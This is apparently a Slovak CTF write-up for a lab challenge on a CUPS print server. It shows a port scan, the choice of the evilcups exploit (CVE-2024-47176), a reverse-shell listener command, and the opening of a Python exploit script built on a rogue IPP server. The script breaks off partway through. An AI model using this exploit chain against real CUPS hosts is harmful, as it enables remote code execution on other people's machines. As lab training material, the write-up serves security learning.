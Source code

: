 # Zadanie

Hi, emergency troubleshooter,

we've received a notification from the national CSIRT that the print server `ipp.powergrid.tcc` may contain a vulnerability. Verify this report and determine whether the vulnerability is present and how severe it is.

Stay grounded!

`NOTE: This challenge will restart every whole hour to ensure proper functionality.`

`NOTE: If you have played this challenge before 2025-10-06 23:08:00 CEST, start from scratch again, please. Some issues have been fixed.`

## Riešenie

Súdiac podľa subdomény ipp pôjde zrejme o CUPS (mám s ním vlastné skúsenosti) bežiaci na porte 631, tak mrknem na otvorené porty 

```
PORT    STATE SERVICE
631/tcp open  ipp
```

Áno a beží tam CUPS verzia 2.4.7 a po troche googlenia som našiel exploit známy ako evilcups (CVE-2024-47176) a idem ho vyskúšať. Budem však potrebovať vedieť svoju vpn ip, tú mam aktuálne 10.200.0.11, budem chcieť reverse shell, tak si pripravím listener, obľúbil som pwncat alebo penelope, teraz použijem penelope a budem počúvať na porte 9010 `python penelope.py -p 9010`.

```python
#!/usr/bin/env python3
# Based off of EvilSocket's Exploit Script
# Few changes to make it more relaible

import socket
import threading
import time
import sys

from ippserver.server import IPPServer
import ippserver.behaviour as behaviour
from ippserver.server import IPPRequestHandler
from ippserver.constants import (
    OperationEnum, StatusCodeEnum, SectionEnum, TagEnum
)
from ippserver.parsers import Integer, Enum, Boolean
from ippserver.request import IppRequest

class ServerContext:
    def __init__(self, server):
        self.server = server
        self.server_thread = None

    def __enter__(self):
        print(f'IPP Server Listening on {server.server_address}')
        self.server_thread = threading.Thread(target=self.server.serve_forever)
        self.server_thread.daemon = True
        self.server_thread.start()

    def __exit__(self, exc_type, exc_value, traceback):
        print('Shutting down the server...')
        self.server.shutdown()
        self.server_thread.join()

def handle_signal(signum, frame):
```